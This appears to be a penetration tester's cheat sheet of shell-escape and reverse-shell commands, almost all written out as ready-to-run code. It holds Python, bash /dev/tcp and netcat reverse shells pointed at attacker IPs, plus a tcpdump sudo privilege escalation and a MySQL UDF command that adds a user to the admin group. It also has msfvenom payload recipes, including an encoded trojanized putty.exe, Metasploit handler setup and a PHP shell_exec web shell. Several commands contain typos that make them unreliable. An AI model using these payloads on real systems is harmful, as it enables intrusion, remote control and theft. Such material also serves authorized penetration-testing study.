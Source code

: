 Spawning a TTY Shell - Break out of Jail or limited shell
-----
**PYTHON**

python -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM); s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()

Plesse check below:   

PS1='\e[33;1m\u@\h: \e[31m\W\e[0m\$

**BASH**

bash -i >& /dev/tcp/$attacker_IP/4444 0>&1  // from the victim to your IP. nc -lvvp should be listening
echo os.system('/bin/bash')
OR        
`/bin/sh -i`
OR        
`:! /bin/bash`
OR        
`':!bash':`   //from vim
OR        
`:!bash`    // from vi
OR        
`!sh`    //from nmap

Plesse check below:
`:set shell=/bin/bash:shell`

echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root      //from tcpdump

open vi or vim and type:   //from vi
:set shell=/bin/bash
Next, type and execute
:shell

awk 'BEGIN {system("/bin/sh")}'

find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

-----
 After you use the 'more', 'less', or 'man' command with a file, type '!' followed by a command. For instance, try the following once inside the file. // more, less, man commands

echo "evil script code" | tee script.sh      // tee -a to append at the end of the file

 == Files Executed in Unrestricted Mode? ==

Some restricted shells will start by running some files in an unrestricted mode before the restricted shell is applied. If your .bash_profile is executed in an unrestricted mode and it's editable, you'll be able to execute code and commands as an unrestricted user.

**OTHERS**

perl -e 'exec "/bin/sh";'   
perl: exec "/bin/sh";   
ruby: exec "/bin/sh"   
lua: os.execute('/bin/sh')   
irb(main:001:0> exec "/bin/sh"    
lua: ``os.execute('/bin/sh')``   
``exec "/bin/sh"``    // from IRB   
select sys_exec('usermod -a -G admin john'); // from mysql command prompt. Then use sudo su and inser john's password.  

First things first, for the MySQL UDF to work - MySQL has to be running with root privileges, so let’s check.
john@Kioptrix4:/var/www$ ls -la /usr/lib/lib_mysqludf_sys.so 
-rw-rw-rw- 1 root root 12896 2012-02-04 10:08 /usr/lib/lib_mysqludf_sys.so


**== Upgrading half shells to fully interactive TTYs without closing nc session. ==**

python -c 'import pty; pty.spawn("/bin/bash")'

background remote shell with Ctrl+Z    // on victim machine

stty -a | grep rows    //on attacking machine  
speed 38400 baud; rows 55; columns 205; line = 0;  
echo $TERM     // on attacking machine  
sty raw echo   // attacking machine  
fg             // attacking machine  
reset          // attacking machine  
export TERM=xterm-256color //on victim machine  
export SHELL=BASH          //on victim machine  
stty rows 55 columns 205   //on victim machine. See stty -a  

**SHELLS:**

MSFVENOM
    
 List payloads
 msfvenom -l
 
            == Binaries ==
 Linux
 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.31.139 LPORT=8443 -f elf-so > shell.so
    
 Windows
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
 
 msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=10.11.0.159 -e x86/shikata_ga_nai -i 5 -b "\x00" -f exe -o putty1.exe

 *Linux Based Shellcode* - generic
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

*Windows Based Shellcode* - generic
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
 
           == Web payloads ==
  
PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.159 LPORT=53 R > cmd.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

            == Scripting Payloads ==

Python
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

BASH
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

          == HANDLERS ==
 Setup metasploit to receive shells easily.
 
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z

mssf > use exploit/multi/handler 
msf exploit(handler) > setg PAYLOAD java/jsp_shell_reverse_tcp
PAYLOAD => java/jsp_shell_reverse_tcp
set LHOST 10.11.0.159
set LPORT 4343
LPORT => 4343
msetg SHELL cmd.exe
exploit -j -z

-----
SSH to Meterpreter: https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/

         use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter


**REVERSE SHELLS**  
 -----
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.128",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 
 
 Pen test monkey PHP reverse shell  
    [http://pentestmonkey.net/tools/web-shells/php-reverse-shel](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

-   php-findsock-shell - turns PHP port 80 into an interactive shell  
    [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

-   Perl Reverse Shell  
    [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

-   PHP powered web browser Shell b374k with file upload etc.  
    [https://github.com/b374k/b374k](https://github.com/b374k/b374k)

-   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell 
    https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1
  
-   PHP shell. Execute some PHP code on a HTML/PHP page ==

<?php
$output = shell_exec('ls ../../');
echo "<pre>$output</pre>";
?>

**TIPS**:
-----
- run 'env' command to see PATH and how profile is configured.
- list the PATH directories with 'echo /some/folder/*' or just use ls.
- see what commands you can use from above and iterate through other accessible folders

Change PATH or SHELL Environment Variables
-----
'export -p' to see the exported variables in the shell.
    -x - is execute only
    -w - is write too <<<<<<
   
If the SHELL variable is writeable, you can simply set it to your shell of choice (i.e. sh, bash, ksh, etc...).
If the PATH variable is writeable, then you'll be able to set it to any directory you want. I recommend setting it to one that has commands vulnerable to shell escapes.
   
**COPY FILES**
-----
ls -alh /some/folder from $PATH and see if you can write in there
If yes, then simply copy commands into the PATH that have known shell escapes. OR write your script and write it here.
   
   - copy files to your home directory and try to execute.
   -- if not able to copy, mount devices or filesystems
   -- copy using SCP, FTP, rsync

Find other writable directories and upload your script there.
Create a symbolic link in a directory where you have write access.
